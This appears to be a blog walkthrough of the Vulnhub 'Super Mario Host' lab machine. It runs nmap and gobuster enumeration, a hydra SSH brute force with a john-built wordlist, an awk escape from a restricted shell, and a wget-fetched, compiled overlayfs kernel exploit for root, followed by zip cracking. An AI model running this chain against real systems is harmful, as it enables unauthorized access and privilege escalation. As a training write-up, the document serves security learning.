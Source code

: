 ```yaml
---
title: Vulnhub - Super Mario Host
description: My writeup on Super Mario Host box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://static.posters.cz/image/750/%CE%91%CF%86%CE%AF%CF%83%CE%B5%CF%82/super-mario-characters-i22822.jpg)

Hi all, Let's pwn it!

You can find the machine there > [Super Mario Host](https://www.vulnhub.com/entry/super-mario-host-101,186/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.6
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 00:44 EEST
Nmap scan report for mario.supermariohost.local (192.168.1.6)
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 1c:97:c0:06:3b:cb:4f:6f:0f:65:8d:37:82:c4:23:59 (DSA)
|   2048 45:2d:fe:04:bb:98:ed:00:d7:7b:36:da:8f:cf:44:1c (RSA)
|   256 09:5c:25:9d:5c:54:ae:8d:90:e3:44:9b:5e:a1:4d:e0 (ECDSA)
|_  256 c9:d5:6a:32:53:ab:8a:43:74:4b:85:fb:a0:ba:40:52 (ED25519)
8180/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Mario
MAC Address: 00:0C:29:DF:8C:2E (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we visit the site, we get the default nginx page :

![](https://i.imgur.com/OW6e7me.png)

Let's run `gobuster` on it.

```
$ gobuster dir -q -u http://$ip:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster1.txt
/vhosts (Status: 200)
/server-status (Status: 403)
```

`/vhosts` has a virtual host file :

```
<VirtualHost *:80>

	ServerName mario.supermariohost.local
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/supermariohost
	DirectoryIndex mario.php

	ErrorLog ${APACHE_LOG_DIR}/supermariohost_error.log
	CustomLog ${APACHE_LOG_DIR}/supermariohost_access.log combined
 
</VirtualHost>
```

`ServerName mario.supermariohost.local` is the domain, let's add it at `/etc/hosts`

```
$ cat /etc/hosts
192.168.1.6     mario.supermariohost.local
```

Perfect, now if we browser the website with the domain name we can see a different page : 

![](https://i.imgur.com/GuqIVTU.png)

Let's run `gobuster` on it.

```
$ gobuster dir -q -u http://mario.supermariohost.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt -o gobuster2.txt
/mario.php (Status: 200)
/command.php (Status: 200)
/luigi.php (Status: 200
```

I did some enumeration on them & the only things i found useful are the usernames `mario` & `luigi` we can do SSH brute force with them.

We should craft first a wordlist using `john`, i'll use the `Wordlist` rule on the 2 usernames.

## SSH brute force - Shell as luigi - Bypassing limited shell

```
$ touch usernames.txt
$ printf "mario\nluigi" > usernames.txt 
$ john -wordlist:usernames.txt -rules:Wordlist -stdout > wordlist.txt
$ hydra -L usernames.txt -P wordlist.txt $ip ssh

[DATA] attacking ssh://192.168.1.6:22/
[STATUS] 97.00 tries/min, 97 tries in 00:01h, 114 to do in 00:02h, 16 active
[22][ssh] host: 192.168.1.6   login: luigi   password: luigi1
```
`
Let's login in!

```
$ ssh luigi@$ip
luigi@192.168.1.6's password: 
You are in a limited shell.
Type '?' or 'help' to get the list of allowed commands
luigi:~$ 
```

We're in a limited shell :

```
luigi:~$ echo $SHELL
*** forbidden path: /usr/bin/lshell
``` 

Let's check what command we can run :

```
luigi:~$ ?
awk  cat  cd  clear  echo  exit  help  history  ll  lpath  ls  lsudo  vim
```

We can exploit `awk` and open a normal `bash/sh` shell.

```
luigi:~$ awk 'BEGIN {system("/bin/bash")}'
luigi@supermariohost:~$ whoami
luigi
```

## Kernel privilege escalation

After lot of enumeration, i found nothing. I usually avoid to exploit old kernel versions, but on this box it's the only way to gain a root shell. So let's check kernel version :

```
luigi@supermariohost:~$ uname -a
Linux supermariohost 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
luigi@supermariohost:~$ uname -r
3.13.0-32-generic
```

Because it's an old box, we can see uses a really old kernel. Let's search for possible exploits with searchsploit.

```
$ searchsploit 3.13.0
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                              | linux/local/37292.c
```

This seems perfect, let's download it on target box & compile it.

```
luigi@supermariohost:/tmp$ wget -q https://www.exploit-db.com/download/37292 -O root.c
luigi@supermariohost:/tmp$ gcc root.c -o root
luigi@supermariohost:/tmp$ chmod +x root; ./root
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),112(lshell),1001(luigi)
```

## Cracking .zip & grab the flag

Now let challenge isnt over, we can see under `/root` directory a `.zip` :

```
# ls
Desktop  Documents  Downloads  Music  Pictures	Public	Templates  Videos  flag.zip
```

Probably we have to crack it & grab the flag, let's move it to `/var/www/html` so we can download it.

```
# mv flag.zip /var/www/html
```

In our box now :

```
$ wget -q $ip:8180/flag.zip
$ file flag.zip 
flag.zip: Zip archive data, at least v2.0 to extract
$ unzip flag.zip 
Archive:  flag.zip
```

We have to crack it, i'll use `fcrackzip` :

```
$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt flag.zip 


PASSWORD FOUND!!!!: pw == ilovepeach
$ unzip -P ilovepeach flag.zip 
Archive:  flag.zip
  inflating: flag.txt                
$ cat flag.txt 
Well done :D If you reached this it means you got root, congratulations.
Now, there are multiple ways to hack this machine. The goal is to get all the passwords of all the users in this machine. If you did it, then congratulations, I hope you had fun :D

Keep in touch on twitter through @mr_h4sh

Congratulations again!
								
mr_h4sh
```

awesome box! brings back lot of memories.

